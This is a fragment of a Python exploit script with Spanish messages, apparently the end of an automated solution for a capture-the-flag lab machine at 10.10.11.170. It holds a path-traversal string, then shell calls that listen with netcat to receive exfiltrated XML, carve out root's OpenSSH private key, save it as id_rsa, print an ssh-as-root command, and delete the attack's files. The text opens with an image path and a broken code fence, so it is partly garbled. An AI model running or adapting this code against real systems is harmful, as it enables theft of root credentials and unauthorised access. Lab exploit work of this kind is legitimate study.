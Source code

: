 ```String fullpath = "/opt/panda_search/src/main/resources/static/../../../../../../../../tmp/gato.jpg;``` 
                os.system("timeout 5 nc -nlvp 443 > rootssh.xml")
                os.system("cat rootssh.xml| tr -d \"\n\r\" | grep -oP \"(?<=<foo>).*?(?=</foo>)\" | sed \"s/-----BEGIN OPENSSH PRIVATE KEY-----/-----BEGIN OPENSSH PRIVATE KEY-----\\n/\" | sed \"s/-----END OPENSSH PRIVATE KEY-----/\\n-----END OPENSSH PRIVATE KEY-----/\" > id_rsa")
                os.system("chmod 600 id_rsa")
                print("Clave privada de root guardada en el archivo id_rsa")
                print("Puedes acceder como root via ssh haciendo ssh -i id_rsa root@10.10.11.170")
                os.system("rm -rf foto* index.html pwned_creds.xml rootssh.xml")
        except Exception as e:
            log.error(str(e))

```